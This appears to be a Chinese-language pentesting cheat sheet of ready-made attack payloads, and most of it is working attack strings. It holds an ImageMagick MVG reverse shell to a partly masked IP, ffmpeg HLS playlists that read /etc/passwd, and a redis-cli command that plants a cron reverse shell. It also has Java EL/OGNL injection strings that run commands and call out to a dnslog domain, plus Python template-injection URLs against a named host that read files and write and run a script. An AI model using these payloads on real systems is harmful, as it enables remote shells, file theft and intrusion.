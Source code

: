 ## 本地文件读取
path
filename
src_url


## imagetrick
push graphic-context

viewbox 0 0 640 480

fill 'url(https://"|bash -i >& /dev/tcp/101.200.**.**/8081 0>&1;")'

pop graphic-contextop graphic-context

## ffmpeg
#EXTM3U

#EXT-X-MEDIA-SEQUENCE:0

#EXTINF:10.0,

concat:http://test.com/header.m3u8|file:///etc/passwd

#EXT-X-ENDLIST
## 

#EXTM3U

#EXT-X-MEDIA-SEQUENCE:0

#EXTINF:10.0,

concat:http://test.com/header.m3u8|subfile,,start,30,end,120,,:///etc/passwd

#EXT-X-ENDLIST
沙盒绕过
http://pastebin.com/aE4sKnCg

## redis
echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/114.114.114.114/53 0>&1\n\n"|redis-cli -h 115.182.69.199 -p 3000 -x set 0

config set dir /var/spool/cron/ 

config set dbfilename root

## java远程EL表达式
### 特征是jhtml,还有就是类似service=${1000-900}
companyName=999&groupName=&papersType=${"a9999abbb".toString\u0028\u0029}&papersValue=1&baseacct=1&retMsg=1&retCode=1

groupName=1&papersType=${%23a%3d\u0028new%20java.lang.ProcessBuilder\u0028new%20java.lang.String[]{\u0027/sbin/ifconfig\u0027,\u0027-a\u0027}\u0029\u0029.start\u0028\u0029,%23b%3d%23a.getInputStream\u0028\u0029,%23c%3dnew%**.**.**.**.InputStreamReader\u0028%23b\u0029,%23d%3dnew%**.**.**.**.BufferedReader\u0028%23c\u0029,%23e%3dnew%20char[50000],%23d.read\u0028%23e\u0029,%23ringzero%3d%23context.get\u0028\u0027com.opensymphony.xwork2.dispatcher.HttpServletResponse\u0027\u0029,%23ringzero.getWriter\u0028\u0029.println\u0028%23e\u0029,%23ringzero.getWriter\u0028\u0029.flush\u0028\u0029,%23ringzero.getWriter\u0028\u0029.close\u0028\u0029}&papersValue=1&baseacct=1&retMsg=1&retCode=1

${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'/sbin/ifconfig','-a'})).start(),#b=#a.getInputStream(),#c=new **.**.**.**.InputStreamReader(#b),#d=new **.**.**.**.BufferedReader(#c),#e=new char[50000],#d.read(#e),#ringzero=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#ringzero.getWriter().println(#e),#ringzero.getWriter().flush(),#ringzero.getWriter().close()}

groupName=1&papersType=${new **.**.**.**.File(\u0027/\u0027).listFiles()[1]}&papersValue=1&baseacct=1&retMsg=1&retCode=1

获取web路径

${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

http://www.cnblogs.com/xdp-gacl/p/3938361.html

执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("dig sougou.99fd5e.dnslog.info",null).getInputStream())}

读取文件位置
${applicationScope}

## 越权
- oauth2未验证access_token

## 修改密码
- 拆分认证，导致可以重置密码，所以要求验证密码的时候，验证码和旧密码和新密码一起验证，避免出现这种情况。

## python模板代码执行
- http://t.youhua.baidu.com/{{open('/etc/passwd').read()}}/about.html
- 写test.py: http://t.youhua.baidu.com/{{open('/tmp/test.py','w').write('import os;os.system("ps aux > /tmp/output")')}}/about.html 

读取test.py核对:http://t.youhua.baidu.com/{{open('/tmp/test.py').read()}}/about.html

执行test.py: http://t.youhua.baidu.com/{{execfile('/tmp/test.py')}}/about.html

读取output: http://t.youhua.baidu.com/{{open('/tmp/output').read()}}/about.html